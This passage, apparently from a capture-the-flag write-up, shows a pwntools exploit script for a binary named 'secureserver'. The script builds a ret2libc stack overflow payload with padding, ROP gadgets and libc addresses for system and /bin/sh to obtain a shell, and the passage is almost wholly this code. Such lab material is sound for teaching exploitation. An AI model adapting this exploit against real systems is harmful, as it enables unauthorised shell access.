 `exploit.py`:

{% code lineNumbers="true" %}
```python
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Binary filename
exe = './secureserver'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# Lib-c offsets, found manually (ASLR_OFF)
libc_base = 0x7ffff7d8b000
system = libc_base + 0x50d60
binsh = libc_base + 0x1d8698

# POP RDI gadget (found with ropper)
ret = 0x401016
pop_rdi = 0x40120b

# How many bytes to the instruction pointer (RIP)?
padding = 72

payload = flat(
    asm('nop') * padding,  # Padding up to RIP
    ret,
    pop_rdi,  # Pop the following address into the RDI register
    binsh,  # Address of /bin/sh in libc
    system,  # Address of system function in libc
)

# Write payload to file
write('payload', payload)

# Exploit
io.sendlineafter(b':', payload)

# Get flag/shell
```